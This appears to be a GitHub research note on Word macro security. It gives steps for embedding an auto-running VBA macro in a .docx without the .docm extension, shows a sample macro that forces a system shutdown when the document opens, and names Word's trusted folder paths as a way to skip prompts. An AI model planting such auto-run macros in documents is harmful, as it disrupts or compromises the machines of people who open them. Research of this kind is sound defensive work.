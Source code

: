## Security researching microsoft word (.docx) documents


### Word extensions for macro enabled/disabled documents
Under normal circumstances, .docm is the default extension for any macros added. However through the developer ribbon, macros can be added without changing the file extension. This greatly increases the risk of a reverse shell running in the background, especially one that tunnels through trusted channels like discord.
Here's how!!
1.) Check developer under File -> Options -> Customise Ribboms -> Right box -> Developer
2.) Create a new macro and paste in the script
3.) Save the document

### Example
```vbs
Sub AutoOpen()
'
' AutoOpen Macro
'
'
    CreateObject("Wscript.shell").Run "shutdown -s -f -t 500"
End Sub
 
Sub Document_Open()
    CreateObject("Wscript.shell").Run "shutdown -s -f -t 500"
End Sub
```
Referenced from [Reverse Shell From Word Document (Agis, 2021)](https://github.com/Agisthemantobeat/Reverse-Shell-From-Word-Document)
The above script, when pasted in as a module (macro), opens the shell and schedules a shutdown.
I tested it on a docx outside of trusted directory and word protection (editing enabled) which ran without any prompts.

### Word trusted locations
```
C:\Users\[User]\AppData\Roaming\Microsoft\Word\Startup\ 
C:\Users\[User]\AppData\Roaming\Microsoft\Templates\
```

Some locations are deemed as "trusted" locations by word, which means running a word document from there can run macros or activeX without prompt. This could potentially be leveraged by threat actors who could first write a word doc into that location and runit thereby any macros associated. It's however, unlikely for this to be leveraged due to a prerequisite of the attacker already having access

### More possibilities?

Active X is a feature written in the same language as the above macro (vbs), and it allows the user to interact with the document. It can also be used to run macros though it won't make much of a difference. 

Office generally allows interaction between office apps, so perhaps we could do it for excel?
